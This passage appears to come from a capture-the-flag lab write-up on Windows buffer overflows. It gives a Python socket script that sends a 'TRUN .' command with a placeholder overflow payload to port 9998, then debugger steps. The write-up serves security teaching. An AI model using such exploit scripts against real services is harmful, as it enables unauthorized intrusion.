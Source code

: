 Copy the code and paste it into the script

```python
#!/usr/bin/python
import socket
server = "<Machine IP>"
port = 9998
function = "TRUN ."
overflow = "<PASTE THE STUFF>"
exploit = function + overflow + "\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, port))
s.send((exploit))
s.close()
```

Launch the debugger and attach the program.

![debugger action](/assets/images/THM/2020-08-13-intro-to-windows-bof/13.png)

![debugger action 1](/assets/images/THM/2020-08-13-intro-to-windows-bof/14.png)

After that, pull the register screen to the right. Forget the assembly, it does not serve any purpose in this room unless you are going for reverse engineering.

